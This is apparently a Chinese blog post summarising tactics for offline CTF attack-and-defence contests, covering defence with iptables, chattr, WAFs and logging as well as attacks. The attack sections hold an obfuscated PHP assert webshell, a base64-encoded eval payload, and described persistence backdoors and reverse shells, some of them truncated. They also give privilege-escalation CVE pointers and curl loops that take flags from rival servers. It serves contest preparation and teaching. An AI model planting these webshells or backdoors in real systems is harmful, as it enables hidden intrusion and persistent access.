


CTF线下AWD经验总结
简介
随着CTF的普及，比赛的形式也有了越来越多的花样，对于线下赛来说，常见为 AWD:Attack With Defence+公共高地、内网渗透等形式。
由于前段时间准备线下赛时，看了许多大佬们总结的套路，他们各种骚操作让我学到了许多，所以就想把几篇我觉得比较好的总结一下，一来方便自己比赛前回顾一下，二来跟大家分享，希望能对各位CTF朋友们有所帮助。
之后如果学到什么新姿势，我有时间也会update上来和大家分享:)
何为AWD
比赛中每个队伍维护多台服务器，服务器中存在多个漏洞，利用漏洞攻击其他队伍可以进行得分，修复漏洞可以避免被其他队伍攻击失分。
一般分配Web服务器，服务器（多数为Linux）某处存在flag（一般在根目录下）
可能会提供一台流量分析虚拟机，可以下载流量文件进行数据分析；
flag在主办方的设定下每隔一定时间刷新一轮
各队一般都有自己的初始分数
flag一旦被其他队伍拿走，该队扣除一定积分
扣除的积分由获取flag的队伍均分
主办方会对每个队伍的服务进行check，服务宕机扣除本轮flag分数，扣除的分值由服务check正常的队伍均分
一般每个队伍会给一个低权限用户，非root权限
具体规则以具体比赛规则为准，但一般大同小异
网络环境
网络拓扑如下图所示（示例）：

首先先理清好网络拓扑关系，节点与各链路之间的关联，方便下一步和队友配合，要不然不知道对手在哪就GG。
比赛分工
线下赛一般3人左右，2人攻击，1人防御，因为发现的漏洞可以攻击其他队伍，也要进行修复，所以攻防相辅相成，以攻为守。
一般来说，比赛中每个队伍需要维护多个靶机，web、二进制等，也可以每人负责一台，各自负责攻击和防御。
套路小结
常规的CTF线下攻防思路：

服务器登录
一般比赛都通过ssh连接服务器，拿到网络拓扑图后，和队友进行分工，一个人检查有没有弱口令（弱口令的问题几乎是必考），有的话对密码进行修改（越复杂越好，当然前提是自己也方便）。web后台也很有可能存在弱口令，一般都是admin/admin ，admin/123456，test/test等等，同样需要立即修改，并将情况反馈给队友，凭着你的手速修改其他队伍的后台口令，为本队所用，甚至有些严重的可以利用后台getshell。
与此同时，还需要（一定要！必须要！）有人在比赛开始后第一时间备份服务器中web目录下的文件（/var/www/html）。这是自我审计的基础，也是防止服务器在比赛中出现异常的情况下可以立即恢复到初始状态的先决条件。有的比赛可以提供3次左右的恢复初始设置的机会（但一般会伴随着扣分为代价），有的比赛不提供，所以备份十分重要。
可以用scp命令，也可用一些图形化的工具：Winscp，MobaXterm等，操作起来比较方便。
接着就是上WAF、文件监控、端口扫描。将这几个工作分工好，顺序就像图上。
提权
在AWD中，一般都需要专门防御加固自己服务器的环节，但加固的很多操作都会涉及到root权限，如果直接给root权限最好，但一般只会给一个普通权限账号，这时候往往就需要给服务器提权了。关于提权，通常我们要根据kernel版本号找到对应的poc，平时我们可以收集测试一些比较新的提权poc，以备不时之需。
Linux_Local_Root_Exploits ：这网站收集了许多linux本地提权的poc。
linux-kernel-exploits(github) ：一个挺全的提权exp项目，收集了04年至今的exp，并按年份和CVE归类
下面分享几个最近两年并且影响范围比较大的：
CVE-2017-6074 (DCCP双重释放漏洞 > 2.6.18 ) ：DCCP双重释放漏洞可允许本地低权限用户修改Linux内核内存，导致拒绝服务（系统崩溃）或者提升权限，获得系统的管理访问权限
CVE-2016-5195(脏牛，kernel 2.6.22 < 3.9 (x86/x64)) ：低权限用户可修改root用户创建的文件内容，如修改 /etc/passwd，把当前用户的 uid 改成 0 即可提升为root权限
CVE-2016-8655(Ubuntu 12.04、14.04，Debian 7、8) ：条件竞争漏洞，可以让低权限的进程获得内核代码执行权限
POC：https://www.seebug.org/vuldb/ssvid-92567
CVE-2017-1000367(sudo本地提权漏洞 ) ：Linux Kernel Stack Clash安全漏洞。该漏洞是由于操作系统内存管理中的一个堆栈冲突漏洞，它影响Linux，FreeBSD和OpenBSD，NetBSD，Solaris，i386和AMD64，攻击者可以利用它破坏内存并执行任意代码 。
CVE-2016-1247(Nginx权限提升漏洞) ：Nginx服务在创建log目录时使用了不安全的权限设置，可造成本地权限提升，恶意攻击者能够借此实现从 nginx/web 的用户权限 www-data 到 root 用户权限的提升。
POC：https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
我收集了一些提权的脚本工具集，可作参考：https://github.com/edwardchoijc/ctf-toolkit/Linux/getROOT
How to Attack
主机发现
如果是在同个C段，或者B段，均可以使用扫描器进行扫描得出。还要记得扫端口，这很重要，当然这个端口扫描是建立在没有自己靶机权限的情况下。用nmap也行，自己写的脚本或者网上找的也行。
找预留后门
有的比赛环境，为了照顾比较菜的选手，预留了一句话后门，可以利用这个漏洞迅速打一波，还可以视情况“搅屎”，利用这个漏洞一直维持权限，每轮都得分。
将整个web目录下载到本地，使用hm.exe、D盾或者别的扫描工具可以扫描得出（如果预留）
发现后门后，第一时间删除，同时利用这个漏洞发起第一波攻击，如果利用菜刀连，显然不够优雅，还没连完，人家估计都删的差不多了，因此这个漏洞虽然是送分，但拼的是手速，因此得提前准备好脚本
代码审计
代码审计是攻防一体的工作，当发现漏洞时，修补的同时跟进攻的队友商讨如何利用

一句话木马
控制用的一句话木马，最好是需要菜刀配置的，这样做是为了不让别人轻易的利用你的一句话，要不然就只能等着别人用你的脚本捡分。
比较好的一句话：
<?php
$a=chr(96^5);
$b=chr(57^79);
$c=chr(15^110);
$d=chr(58^86);
$e='($_REQUEST[C])';
@assert($a.$b.$c.$d.$e);
?>配置为?b=))99(rhC(tseuqeR+lave
1 | <?php |
配置为n985de9=QGV2YWwoJF9QT1NUWzBdKTs= ，连接密码为0（数字）
单个文件批量上传
当我们通过某个漏洞批量上传了很多的webshell后，可能想要批量传个后门以备后用。这时我们可以通过用脚本批量上传来提高效率：batch_upload_file
权限维持
上面说到利用预留后门可以维持权限，主要有两种，一种是“不死马”，另一种是反弹shell
“不死马”
1 | <?php |
利用预留后门，上传上面的“不死马”并访问，就会一直生成.demo.php的一句话木马，木马内容可以自行修改，只要别被其他队伍看懂就行。
文件名前加一个点，能更好地隐藏文件
想要结束这个进程，除了最暴力的重启服务之外，更为优雅的如下:
<?php
while (1) {
$pid=1234;
@unlink('.demo.php');
exec('kill -9 $pid');
}
?>先查看进程，查看对应的pid，再执行即可。
md5马+header
1 | <?php |
放进config.php效果最好，因为一般很少人去看这个。
反弹shell
1 | <?php |
利用预留后门上传上面的php文件并访问，就可以用nc反弹shell，之后就可以一直得分了
How to Defend
常用命令
我们先总结一下线下赛的防护工作中常用的一些命令
1 | ssh <-p 端口> username@ip |
文件监控
为了监控我们的web目录，我们可以对文件的增加或修改等操作进行限制，粗暴一点的话，就禁止任何文件产生变化。
使用系统
chattr +i命令Linux下的文件有着隐藏属性，可以用
lsattr命令查看。其中有一个i属性，表示不得更动任意文件或目录。如果你已经有root或者sudo权限了，那么你可以使用chattr +i修改文件隐藏属性，这样所有用户都不能对该文件或者目录进行修改删除等操作（包括root），如果想进行修改，必须用chattr -i取消隐藏属性。e.g.
防止系统中某个关键文件被修改：
chattr +i /etc/profile将/var/www/html目录下的文件设置为不允许任何人修改：
chattr -R +i /var/www/html使用python的第三方库pyinotify
python的第三方库pyinotify可以让我们很方便地实现这些功能。但是由于是第三方库，线下赛中通常没法联网安装库，所以我们可以提前准备好source code以在比赛时安装。
下载地址：https://pypi.python.org/pypi/pyinotify （如果比赛可以联网，建议直接通过pip安装）
安装方法：解压，然后执行
sudo pythonXXX setup.py install使用方法：
python -m pyinotify monitoring_path但由于监控事件太过杂，很多并不是我们关注的，并且我们不仅仅要监控，还需要对某些操作进行自动处理，因此我们可以用脚本针对性地实现我们需要的功能：monitor_withPyinotify。
网络控制
网络防护一定少不了 iptables了，但使用iptables需要有管理员权限。对于比赛环境，我们完全可以配置一个近乎苛刻的配置防火墙策略。
只开放一些比赛的必要端口，也可以防止后门的连接
1 | #开放ssh |
限制ssh登陆，进行访问控制
1 | #禁止从xx.xx.xx.xx远程登陆到本机 |
限制IP连接数和连接速率
我们可以限制IP的网络连接数和速度等，限制过快的连接频率，这样可以在一定程度上限制对方的扫描器。狠一点的话，甚至可以让对方只能以手工点网页的速度与访问
1 | #单个IP的最大连接数为 30 |
再猥琐一点，可以定时断开已经建立的连接，让对方只能断断续续的访问
数据包简单识别，防止端口复用类的后门或者shell
假设病毒木马程序通过22，80端口向服务器外传送数据，这种方式向外发的数据不是我们通过访问网页请求而回应的数据包。我们可以禁止这些没有通过请求回应的数据包。
1 | iptables -A OUTPUT -p tcp --sport 22 -m state --state ESTABLISHED -j ACCEPT |
限制访问
如果对方来势太凶，我们可以限制或者封杀他们的ip段。
1 | #禁止从客户机1.1.1.4访问1.1.1.5上的任何服务 |
过滤异常报文
iptables有一个TCP匹配扩展协议–tcp-flags，功能是过滤TCP中的一些包，比如SYN包，ACK包，FIN包，RST包等等。举个例子，我们知道SYN是建立连接，RST是重置连接，如果这两个同时出现，就知道这样的包是有问题的，应该丢弃。下面的例子是利用–tcp-flags参数，对一些包进行标识过滤，扔掉异常的数据包。
1 | #表示 SYN,FIN,ACK,RST的标识都检查，但只匹配SYN标识 |
防DDOS
1 | iptables -A INPUT -p tcp --dport 80 -m limit --limit 20/minute --limit-burst 100 -j ACCEPT |
-m limit：启用limit扩展–limit 20/minute：允许最多每分钟10个连接–limit-burst 100：当达到100个连接后，才启用上述20/minute限制
丢弃陌生的TCP响应包,防止反弹式攻击
iptables -A INPUT -m state --state NEW -p tcp ! --syn -j DROP
iptables -A FORWARD -m state --state NEW -p tcp --syn -j DROP提供一个通用的firewall脚本firewall.sh，我们可以传到服务器上一键执行，相关参数可以查阅资料详细了解。
注意，对于不同的
iptables版本，一些参数的用法可以会有略微的差异，使用时我们可能要根据需要进行修改。
修复漏洞
CTF比赛中修复漏洞主要就是为了防止其他队伍的入侵了。
删站（不建议）
如果赛组没有明确禁止，这是最粗暴的姿势，只留自己的webshell。
删页面
大部分举办方还是会明确禁止删除网站的，通常赛组会定期访问网站主页（一般来说），从而确定网站是否正常运行。其实我们没必要删除整个网站，只要删掉有漏洞的页面就行了，比如删后台登录页面、注册页面、上传页面等等。
破坏正常功能
如果明确不能删除任何页面，可以选择让这些漏洞点的功能函数（或者其依赖的功能函数）失效。比如上传点，如果考虑过滤挺麻烦，又不能删页面，那么我们可以找到这个漏洞网页，改掉或者删掉文件里对应的类似
upload等这种功能调用函数。正常修补手段
规则限定很严的情况下，我们还是采用正常手法吧，修改服务配置、安装补丁、下载更新的软件版本、加过滤等等。
第1~3种方法其实都算不上修补漏洞了，真实环境下哪能这么干。
上WAF
可以使用第三方软件的话，装个安全狗之类的吧。
下载链接：http://www.safedog.cn/website_safedog.html
也可以搜集或者自己实现一些脚本或者工具备用。
本人收集的一些WAF：https://github.com/edwardchoijc/ctf-toolkit/tree/master/Linux/WAF
使用方法：
将waf.php传到要包含的文件的目录
在页面中加入防护，有两种做法，根据情况二选一：
PHPCMS V9：
\phpcms\base.phpPHPWIND8.7：
\data\sql_config.phpDEDECMS5.7：
\data\common.inc.phpDiscuzX2：
\config\config_global.phpWordpress：
\wp-config.phpMetinfo：
\include\head.php在所需要防护的页面加入代码：
这样就可以做到页面防注入、跨站。
如果想整站防注，就在网站的一个公用文件中添加上述代码来调用WAF
常用的php的WAF添加路径：
require_once('waf.php');在每个文件最前加上上述代码
在
php.ini中找到并添加：
Automatically add files before or after any PHP document.
auto_prepend_file = waf.php的路径;还有最简便的方法，可以用一条命令解决，以php为例：
sudo find /var/www/html/path_you_want -type f -path "*.php" | xargs sed -i "s/<?php/<?php\nrequire_once('\/tmp\/waf.php');\n/g"
#意思就是查找需要加waf的目录下所有php文件，在头部添加一句，用require_once函数引入/tmp/waf.php文件。因为sed命令利用 / 区分文件中的原字符串和修改的字符串，所以我们要对 / 进行转义。类似于在单引号中再次使用单引号时我们也要用反斜杠转义。最后，提醒：需要注意的是，部署waf可能会导致服务不可用，部署后要密切留意自己服务器的状态。
流量和日志分析
通过对流量、日志的分析，可以：
感知可能正在发生的攻击，从而规避存在的安全风险
应急响应，还原攻击者的攻击路径，从而挽回已经造成的损失
某些情况下还能对攻击进行重放复现
流量分析
在比赛机器上使用下述命令进行流量抓取：
tcpdump -s 0 -w flow_log.pcap port 9999然后在本地对抓取的pcap使用wireshark进行分析
日志分析
记录log的脚本网上有很多，大家可以自行搜索。例如：
<?php
date_default_timezone_set('Asia/Shanghai');
$ip = $_SERVER["REMOTE_ADDR"];//记录访问者的ip
$filename = $_SERVER['PHP_SELF'];//访问者要访问的文件名
$parameter = $_SERVER["QUERY_STRING"];//访问者要请求的参数
$method = $_SERVER['REQUEST_METHOD'];//请求方法
$time = date('Y-m-d H:i:s',time());//访问时间
$post = file_get_contents("php://input",'r');//接收POST数据
$others = '...其他你想得到的信息...';
$logadd = '访问时间：'.$time.'-->'.'访问链接：http://'.$ip.$filename.'?'.$parameter.'请求方法：'.$method."\r\n";
// log记录
$fh = fopen("log.txt", "a");
fwrite($fh, $logadd);
fwrite($fh,print_r($_COOKIE, true)."\r\n");
fwrite($fh,$others."\r\n");
fclose($fh);
?>日志分析工具有：
LogForensics@腾讯实验室
北风飘然@金乌网络安全实验室
piaox的多线程WEB安全日志分析脚本
SecSky的Web日志安全分析工具
鬼魅羊羔的Web日志分析脚本
假flag
如果说很不幸，我们前面的关卡都被突破了（实际上我都感觉前面那些设置都有点“搅屎”的味道了，不过还是希望师傅们能一起来讨论讨论有没有什么骚姿势，以及绕过它们的方法）。假设真的被突破了，对于CTF线下赛来说，我们最终的目的都是拿到flag。通常我们会在服务器上执行类似于getflag命令，或者curl访问某个url获取flag，然后获取到一个字符串，然后在答题平台上提交这段字符串即可获取分数。但有时候getflag时因为webshell丢了或其他原因，会导致服务器显示Error，那我们是不是可以故意利用这种报错来欺骗不细心的竞争对手呢？
怎样实现？比如我们可以添加alias别名，或者我们可以把这些命令更改或者替换掉，换成一些伪装命令程序。再换一层想想，接着上面的思路，如果我们替换或者伪装了系统命令，对方getshell之后，进来发现cd，ls等命令都没法用，会怎么样呢？
其他
flag获取
线下赛可以直接使用<?php echo system("curl 10.0.0.2"); ?>之类的
或者
#!/bin/bash
while true
do
flag=$(curl 'http://xx.xx.xx.xx:8080')
curl --cookie "PHPSESSID=YourCookie;" --data "key="${flag} "http://XX.XX.XX.XX/index.php/submit"
sleep 1s
done批量提交flag
#!/usr/bin/env python
import sys
import json
import urllib
import httplib
server_host = 'xx.xx.xx.xx'
server_port = 80
def submit(team_token, flag, host=server_host, port=server_port, timeout=5):
if not team_token or not flag:
raise Exception('team token or flag not found')
conn = httplib.HTTPConnection(host, port, timeout=timeout)
params = urllib.urlencode({
'token': team_token,
'flag': flag,
})
headers = {
"Content-type": "application/x-www-form-urlencoded"
}
conn.request('POST', '/api/submit_flag', params, headers)
response = conn.getresponse()
data = response.read()
return json.loads(data)
if __name__ == '__main__':
if len(sys.argv) < 3:
print 'usage: ./submitflag.py $team_token $flag'
sys.exit()
host = server_host
if len(sys.argv) > 3:
host = sys.argv[3]
print json.dumps(submit(sys.argv[1], sys.argv[2], host=host), indent=4)参考来源:
http://rcoil.me/2017/06/CTF%E7%BA%BF%E4%B8%8B%E8%B5%9B%E6%80%BB%E7%BB%93/
https://www.anquanke.com/post/id/86984
http://tinyfisher.github.io/security/2017/10/02/CTF
https://edwardchoijc.github.io/CTF%E7%BA%BF%E4%B8%8BAWD%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93.html